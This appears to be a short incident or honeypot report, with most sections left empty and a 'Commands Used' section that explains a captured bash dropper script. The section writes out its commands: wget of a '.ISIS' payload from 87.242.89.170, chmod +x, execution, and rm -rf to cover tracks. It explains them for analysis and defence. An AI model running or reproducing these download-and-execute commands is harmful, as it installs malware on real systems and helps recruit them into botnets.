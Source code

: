 
<details><summary>
<h2>Custom Scripts Used To Generate This Report</h2>
</summary></details>

---


<details><summary>
<h1>Time and Date of Activity</h1>
</summary></details>

---


<details><summary>
<h1>Relevant Logs, File or Email</h1>
</summary></details>

---


<details><summary>
<h1>IP and Ports</h1>
</summary></details>

---


# Commands Used
This attack used a total of `2` inputs to execute the following `10` commands:
The attack involved the use of a bash script containing a sequence of shell commands. Here are the commands and their functions in the context of the attack:

- `#!/bin/bash`: This is a shebang line indicating that the script should be run with bash, the Bourne-Again SHell.

- `cd /tmp || cd /var/run || cd /mnt || cd /root || cd /;`: Change the current directory to a series of directories where the attacker intends to operate. The `||` operator means if changing to the previous directory fails, it tries the next one. It targets common directories that might have writable permissions.

- `wget http://87.242.89.170/xxxxx.ISIS;`: Use wget to download a file from a given URL hosted on `87.242.89.170`. The filename pattern looks like it could be obfuscated or encoded, and it ends with `.ISIS`, probably to obfuscate the purpose or avoid simple detection mechanisms.

- `chmod +x xxxxx.ISIS;`: Change the permissions of the downloaded file to make it executable. The `+x` grants executable permissions to the user.

- `./xxxxx.ISIS;`: Execute the downloaded script. Running the script means whatever payload it contains will be run on the compromised system.

- `rm -rf xxxxx.ISIS;`: Remove the file after execution. This is a cleanup step that helps to hide the tracks of the attack, preventing analysts from easily finding the malicious files on the filesystem.

The command pattern is repeated for different URLs, suggesting that multiple payloads are downloaded and executed in the hope that at least one will work as intended by the attacker. The goal of these commands is typically to establish persistence, exfiltrate data, install additional malware, or integrate the compromised system into a botnet. The removal of downloaded files is a common step to evade detection and analysis after the attack has been executed.
